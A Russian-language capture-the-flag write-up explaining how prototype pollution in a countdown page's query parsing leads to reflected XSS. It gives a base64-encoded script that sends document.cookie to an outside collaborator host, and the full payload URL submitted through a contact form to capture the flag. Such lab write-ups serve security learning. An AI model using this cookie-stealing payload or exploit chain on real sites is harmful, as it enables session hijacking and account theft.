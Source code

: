 # Clean Work
Изучая countdown.js видим что объект settings расширяется от параметров передаваемых в запросе. На странице ведется обратный отсчет до даты указанной в параметре data объекта settings.
Так же видим объект unknown_event c закомментированными свойствами started и name. Если startded=true, тогда name добавляется на страницу. 

Изучая init.js находим как параметры из запроса преобразуются в JSON. 
Поскольку settings и unknown_event являются объектами одного типа, у них общий прототип. Добавление свойств в прототип объекта называют атакой prototype pollution - добавляя свойство в прототип одного объета оно становится доступтно для всех объектов этого типа.

Следующим образом можно добавить в свойство `__proto__` произвольный объект и переопределить имеющееся в settings свойство data чтобы запустить событие:
```
http://45.131.97.54:48081/coming-soon.html?__proto__":{"started":1,"name":"lul"},"interval":"5000&update=true&format=on&date=10 april 2022 00:00:00
```

Готовим payload для xss. Чтобы обойти парсер в init.js мы не можем использовать знаки `=`, поэтому "запакуем" js код в base64 и развернем уже на странице:
```js
<script>eval(atob('dmFyIHVybCA9ICdodHRwOi8vN211ZXU2c2ZwMGoyNTJ6anVsMDEycWMzY3VpbDZodTYub2FzdGlmeS5jb20vJzt2YXIgaW1nID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnaW1nJyk7aW1nLnNyYyA9IHVybCArIGRvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGltZyk7'));</script>
```
Код создает объект `<img src=http://collab.burp/document.cookie>`.

Теперь ссылку с reflected xss нужно доставить "жертве". 
Переходим на страницу `http://45.131.97.54:48081/contact.php`.
В поле text помещаем ссылку с полезной нагрузкой для xss:
```
http://45.131.97.54:48081/coming-soon.html?__proto__%22:{%22started%22:1,%22name%22:%22test%3Cscript%3Eeval(atob(%27dmFyIHVybCA9ICdodHRwOi8vN211ZXU2c2ZwMGoyNTJ6anVsMDEycWMzY3VpbDZodTYub2FzdGlmeS5jb20vJzt2YXIgaW1nID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnaW1nJyk7aW1nLnNyYyA9IHVybCArIGRvY3VtZW50LmNvb2tpZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGltZyk7%27));%3C/script%3E%22},%22interval%22:%225000%26update=true%26format=on%26date=10%20april%202022%2000:00:00
```
В коллаборатое видим запрос 
```
GET /Flag=deteact%7Bc2bebfbe20ecc889657caa287e20d28f%7D
```

Флаг - deteact{c2bebfbe20ecc889657caa287e20d28f}
